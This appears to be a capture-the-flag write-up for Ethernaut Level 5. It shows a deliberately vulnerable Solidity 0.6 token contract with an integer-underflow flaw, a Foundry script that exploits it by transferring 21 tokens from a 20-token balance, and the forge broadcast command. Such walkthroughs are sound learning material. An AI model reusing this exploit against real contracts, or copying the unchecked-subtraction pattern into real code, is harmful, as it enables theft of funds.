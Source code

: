 # Ethernaut Level 5

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

We notice that this contract is using a very old version of solidity, which does not introduce protection to numeric underflow/overflow. Since we have a balance of 20 tokens at the beginning, we can just transfer 21 token to any other account, we will break `equire(balances[msg.sender] - _value >= 0)` and have a very large amount of balance because of the underflow.

`Token.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import {Script, console} from "forge-std/Script.sol";
import {Token} from "../src/Token.sol";

contract TokenScript is Script {
    Token token = Token(0xXXXXXXXXXXXXXX);
    function run() external {
        vm.startBroadcast();
        token.transfer(address(0), 21);
        vm.stopBroadcast();
    }
}
```

Then we can run the command:

```bash
forge script script/Token.s.sol:TokenScript --rpc-url $SEPOLIA_RPC_URL$ --account default --broadcast
```

